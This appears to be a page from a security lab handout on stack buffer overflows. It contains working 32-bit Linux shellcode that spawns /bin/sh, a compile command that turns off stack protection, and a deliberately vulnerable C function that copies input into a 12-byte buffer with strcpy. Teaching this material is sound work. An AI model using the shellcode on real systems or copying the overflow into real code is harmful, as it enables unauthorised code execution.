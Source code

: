 ```c
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
}
```

Please use the following command to compile the code (don't forget the `execstack` option):

```sh
gcc -z execstack -o call_shellcode call_shellcode.c
```

A few places in this shellcode are worth mentioning. First, the third instruction pushes "//sh", rather than "/sh" into the stack. This is because we need a 32-bit number here, and "/sh" has only 24 bits. Fortunately, "//" is equivalent to "/", so we can get away with a double slash symbol. Second, before calling the `execve()` system call, we need to store `name[0]` (the address of the string), `name` (the address of the array), and `NULL` to the `%ebx`, `%ecx`, and `%edx` registers, respectively. Line 5 stores `name[0]` to `%ebx`; Line 8 stores `name` to `%ecx`; Line 9 sets `%edx` to zero. There are other ways to set `%edx` to zero (e.g., `xorl %edx, %edx`); the one (`cdq`) used here is simply a shorter instruction: it copies the sign (bit 31) of the value in the EAX register (which is 0 at this point) into every bit position in the EDX register, basically setting `%edx` to 0. Third, the system call `execve()` is called when we set `%al` to 11, and execute "int $0x80".

### The Vulnerable Program

```c
/* stack.c */

/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
    char buffer[12];

    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);

    return 1;
}
```